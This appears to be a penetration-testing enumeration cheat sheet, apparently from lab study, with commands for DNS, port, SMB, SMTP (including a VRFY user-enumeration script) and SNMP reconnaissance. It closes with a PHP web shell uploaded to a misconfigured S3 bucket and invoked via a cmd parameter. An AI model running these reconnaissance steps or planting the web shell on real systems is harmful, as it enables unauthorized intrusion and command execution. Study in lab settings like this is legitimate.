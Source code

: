 ```yaml
---
title: Enumeration Cheat Sheet
tags: [service, enum, cheatsheet]
tools: ['many']
notes: "Enumeration cheat sheet for common services"
---
```




# Enumeration Cheat Sheet

## DNS Enumeration

### Custom Host Enumeration
```bash
for ip in $(cat list.txt); do host $ip.-host-.com; done
```

### PTR Record Scan
```bash
for ip in $(seq 200 254); do host -host-.$ip; done | grep -v "not found"
```

### Automated Recon
```bash
dnsrecon -d -host- -t std
dnsrecon -d -host- -D ~/list.txt -t brt
dnsenum
```

### Subdomain Enumeration
```bash
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
```

### Windows
```bash
nslookup
```

---

## TCP/UDP Enumeration

### Netcat Scanning

**TCP**
```bash
nc -nvv -w 1 -z <host> <port-port>
```

**UDP**
```bash
nc -nv -u -z -w 1 <host> <port-port>
```

### Nmap Sweep Scans

**Ping Sweep**
```bash
nmap -sn <host>
nmap -v -sn <host> -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2
```

**Port Scan**
```bash
nmap -p <port> <host> -oG web-sweep.txt
grep open web-sweep.txt | cut -d" " -f2
```

**OS Fingerprinting**
```bash
sudo nmap -O <host> --osscan-guess
nmap -sT -A <host> --aggressive
```

### Windows
```powershell
Test-NetConnection -Port 445 <host>
```

---

## SMB Enumeration

```bash
sudo nbtscan -r <network>/24
nmap -v -p 139,445 --script smb-os-discovery <host>
```

**Windows**
```powershell
net view \\dc01 /all
```

---

## SMTP Enumeration

**Manual User Verification**
```bash
nc -nv <host> 25
```

**Automated User Verification**
```bash
python3 smtp_verify.py <user> <host>
```

```python
#!/usr/bin/python
# smtp_verify.py
import socket, sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = sys.argv[2]
s.connect((ip, 25))
print(s.recv(1024))

user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
print(s.recv(1024))
```

**Windows**
```powershell
Test-NetConnection -Port 25 <host>
dism /online /Enable-Feature /FeatureName:TelnetClient
telnet <host> 25
```

---

## SNMP Enumeration

```bash
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# Community strings
echo public > community
echo private >> community
echo manager >> community

# Host IPs
for ip in $(seq 1 254); do echo <host>.$ip; done > ips

# Scan with onesixtyone
onesixtyone -c community -i ips
```

**snmpwalk Queries**
```bash
snmpwalk -c public -v1 -t 10 <host>
snmpwalk -c public -v1 <host> 1.3.6.1.4.1.77.1.2.25      # Users
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.4.2.1.2     # Processes
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.6.3.1.2     # Installed Software
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.6.13.1.3       # Listening TCP Ports
```

---

## AWS S3 Bucket Enumeration

```bash
# Check Auth
aws --endpoint=http://<host> s3 ls

# List Buckets
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

# Upload Shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Access:
```
http://<host>/shell.php?cmd=id
```
